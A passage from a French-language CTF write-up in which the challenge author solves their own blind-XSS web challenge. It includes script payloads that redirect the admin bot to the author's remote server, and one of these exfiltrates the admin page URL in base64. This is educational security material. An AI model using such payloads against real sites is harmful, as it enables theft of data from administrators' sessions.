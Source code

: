 ```bash
RUN ulimit -n 1024000 &&  yum update -y
```

Le challenge est donc prêt 24h avant l’événement … Les galères classiques d'une écriture de challenge :) .

## Writeup

Pour cette partie, je vais faire "comme si je n'avais pas écrit l'épreuve". Et la résoudre comme elle vient.

Tout d'abord, rendons-nous sur la page du site, nous découvrons un simple input ainsi qu'un Captcha pour éviter les bruteforce.

![Interface principale](/medias/writeups/miley-a-ctf-challenge-story/image-2.png)

Envoyons à présent un simple message.

![Réponse](/medias/writeups/miley-a-ctf-challenge-story/image-3.png)

Le serveur ne renvoie pas d'information "précise", nous sommes donc ici dans le cadre d'une vulnérabilité exploitable "a l'aveugle".
Mettons en évidence la XSS. Pour cela, j'utilise un serveur distant et le payload de xss suivant :

```xml
<script>window.location.href="http://remote.shoxxdj.fr/itworks"</script>
```

![Exécution du code](/medias/writeups/miley-a-ctf-challenge-story/image-4.png)

Nous avons ici réussi à mettre en évidence la présence d'une XSS et l’exécution de son code. Cependant, nous ne savons pas encore ce qu'il est possible de faire avec cette XSS. Pour cela, nous allons tenter d'en apprendre plus sur la page actuellement affichée à l'administrateur en obtenant son url :

```
<script>
remoteUrl="http://remote.shoxxdj.fr/"
window.location.href=remoteUrl+btoa(window.location.href);
</script>
```

![Obtention de l'url](/medias/writeups/miley-a-ctf-challenge-story/image-5-1024x43.png)

Ce qui nous donne :

```bash
echo "aHR0cDovL3dlYnNpdGUvYWRtaW5faW50ZXJmYWNlX0pudGpLUEk1QXdycWloX2NhbnRfZ3Vlc3MvYWRtaW5fc2VjdXJlX3BhZ2UucGhw" | base64 -d
http://website/admin_interface_JntjKPI5Awrqih_cant_guess/admin_secure_page.php
```

Tentons d'accéder à cette url :

![Accès refusé](/medias/writeups/miley-a-ctf-challenge-story/image-6.png)
